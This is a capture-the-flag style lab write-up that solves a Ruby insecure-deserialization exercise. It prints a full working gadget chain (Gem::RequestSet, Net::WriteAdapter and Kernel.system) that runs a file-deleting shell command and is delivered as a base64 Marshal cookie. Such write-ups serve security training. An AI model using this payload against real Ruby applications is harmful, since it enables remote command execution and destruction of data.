 ## Lab Description :

![image](https://github.com/user-attachments/assets/be3ff9e3-7ad1-4df1-913c-23c05d4bacf4)

## Solution :

Login to the site as wiener using the credentials provided.

![image](https://github.com/user-attachments/assets/24c83d29-c858-43da-ab33-1f299f93028c)

> Good read - https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html 

We can use the exploit code for** universal gadget chain in Ruby 2.x-3.x** mentioned from the above blog post. Just that we need to tweak the exploit according to our requirements.

```ruby
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
# Set the variable value to delete the file in carlos directory.
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
## Add the below line to base64 encode the payload
puts Base64.encode64(payload)
```

Compile the code to get the malicious cookie payload.
> Ruby 2.x compiler - https://domsignal.com/ruby-online-compiler 

![image](https://github.com/user-attachments/assets/863bc652-56b5-4715-8058-417c24f18d94)

URL - encode the cookie value obtained & replace it in the cookie part.

Upon refreshing the page, we see that the server throws a `500 Server Error` &  also the lab is solved.

![image](https://github.com/user-attachments/assets/b27c8e16-bab1-44d3-90a2-adc99598155d)
